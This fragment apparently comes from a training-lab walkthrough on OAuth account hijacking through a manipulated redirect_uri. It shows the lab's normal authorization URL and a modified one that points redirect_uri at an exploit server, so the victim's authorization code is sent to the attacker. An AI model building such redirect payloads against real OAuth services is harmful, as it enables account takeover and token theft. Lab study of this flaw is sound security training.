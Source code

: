 ![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/4.png)

https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/5.png)
